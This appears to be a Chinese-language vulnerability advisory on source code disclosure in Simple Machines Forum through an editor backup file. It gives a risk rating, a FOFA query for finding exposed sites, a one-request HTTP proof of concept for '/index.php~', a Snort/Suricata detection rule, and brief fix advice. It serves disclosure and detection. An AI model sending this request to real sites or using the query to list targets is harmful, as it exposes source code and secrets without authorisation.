

# SimpleMachinesForum-源码泄露

SimpleMachinesForum-源码泄露，导致数据信息泄露或者导致服务器被控制。

# 影响版本

Simple_Machines

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：product="Simple_Machines-产品"

POC/EXP：

```
GET /index.php~ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"Simple Machines Forum - /index.php~ 编辑器备份文件源码泄露";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/index.php~";
        fast_pattern;
    metadata:
        service http,
        affected_product "Simple Machines Forum",
        vulnerability_type "Source Code / Backup File Disclosure",
        severity "high";
    classtype:sensitive-information-leak;
    sid:1000739;
    rev:1;
    priority:2;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
